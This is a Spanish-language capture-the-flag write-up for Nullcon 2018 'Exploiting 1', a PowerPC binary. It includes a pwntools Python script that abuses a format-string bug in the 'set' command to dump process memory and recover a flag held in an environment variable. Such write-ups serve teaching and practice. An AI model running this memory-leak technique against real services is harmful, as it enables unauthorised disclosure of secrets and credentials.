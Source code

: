 # CTF Nullcon 2018 - Exploiting 1

Exploitation Question 1 (200 pts)
```
Exploit the server at 35.170.14.27:9001
Flag is in env $PWNFLAG
```

```bash
# file pwn1-uhoh.bin
pwn1-uhoh.bin: ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=2dce6781d919e201114e4896b4e80e7fc4306dc2, stripped
```

Este binario esta compilado para una arquitectura PowerPC, lo que nos dificulta un poco su análisis.

![](img/exp1-001.png)

El programa acepta 3 instrucciones distintas, *set*, *get* y *exit*. La instrucción *set* se construye con 2 parámetros y *get* con uno.

![](img/exp1-source.png)

Una vez decompilado el código, observamos como la función *set* parece ser vulnerable a *format strings*. Utilizamos el siguiente código para extraer datos de la memoria.

```python
import binascii
from pwn import *

def get(i):
    r.sendline('set A %' + str(i) + '$x')
    r.recvuntil('> ').strip()
    r.sendline('get A')
    rec = r.recvuntil('> ').split('\n')
    value = rec[1]

    try:
        print "%d|%s|%s" % ( i, value, binascii.unhexlify(value) )
    except:
        print "%d|%s|" % ( i, value )


r = remote('35.170.14.27',9001)
r.recvuntil('> ').strip()

for i in range(380):
    get(i)
```

Extracción de memoria del proceso

![](img/exp1-002.png)

En la memoria se observan las variables de entorno

![](img/exp1-003.png)

Modificamos el script para concatenar y mostrar el flag:

![](img/exp1-004.png)


Thanks to [@javierprtd](https://twitter.com/javierprtd)
